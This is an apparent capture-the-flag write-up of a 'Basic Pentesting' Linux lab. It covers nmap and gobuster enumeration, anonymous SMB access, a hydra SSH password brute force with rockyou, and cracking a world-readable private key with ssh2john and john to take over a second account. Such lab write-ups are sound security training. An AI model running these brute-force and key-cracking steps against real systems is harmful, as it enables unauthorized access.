 # Basic Pentesting - Linux

**IP may vary over the document**

## Enumeration

### Nmap: `nmap -sV -oN nmap-initial $IP -v`

```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7
```

### Gobuster 

+ **port 80: `gobuster dir -u http://$IP:80 -w ../wordlist_common.txt | tee gobuster-scan`**

```bash
/.hta                 (Status: 403) [Size: 291]
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/development          (Status: 301) [Size: 318] [--> http://10.10.188.76/development/]
/index.html           (Status: 200) [Size: 158]                                       
/server-status        (Status: 403) [Size: 300]                                       
```

+ **port 8080: `gobuster dir -u http://$IP:8080 -w ../wordlist_common.txt | tee web8080-scan`**

```bash
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]             
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]     
```

Checking */development* dir ..and we have some files

Found a note inside *dev.txt* file mentioning struts v2.5.12

```bash
$searchslpoit struts 2.5

Apache Struts 2.5 < 2.5.12 - REST Plugin XStream Remote Code Execution                   | linux/remote/42627.py
```

`searchspolit` lists a exploit for the version but on further inspection of the exploit it requires url path. We don't have that. I try I bunch of things that I could think of just so I could get some path. Nothing....

Looking at port 8080... we have apache but in order to login in to the manager I need username/password... Creds are usually stored in `$CATALINA_HOME/conf/tomcat-users.xml`. Checked if I could read it..

Tried the following paths:
```bash
CATALINA_HOME="/usr/local/apache-tomcat-9.x.xx"
CATALINA_HOME="/usr/apache/tomcat/"
```

**Did not work**

SMB enumration now.. `smbmap -H $IP -R`

```bash
[+] Guest session       IP: 10.10.77.191:445    Name: 10.10.77.191                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Anonymous                                               READ ONLY
        .\Anonymous\*
        dr--r--r--                0 Thu Apr 19 23:01:20 2018    .
        dr--r--r--                0 Thu Apr 19 22:43:06 2018    ..
        fr--r--r--              173 Thu Apr 19 22:59:55 2018    staff.txt
        IPC$                                                    NO ACCESS       IPC Service (Samba Server 4.3.11-Ubuntu)
```

Using `smbclient` to make a smb connection and *get* the *staff.txt* file.

Contents of *staff.txt*

```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

Did I just got the usernames? `jan` and `kay`

*After I was done with the box I found that we had to bruteforce both username and password... though I got usernames from smb .. so I guess all's well if it ends well :)*

Using `hydra` for bruteforcing password for ssh: `hydra -l jan -P ../rockyou.txt ssh://$IP`

Finally got the password `armando` after waiting for a long time.

After doing ssh with user jan on box and executing *linPEAS* it found:

```bash
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```

World readable ssh keys.. awesome

Coping id_rsa key back to attacking machine and running `ssh2john.py` on it to convert to hash. Finally executing john on that hash we get our passphrase.

Using ssh to login into box using user kay. Just cat out the *pass.bak* file for last flag

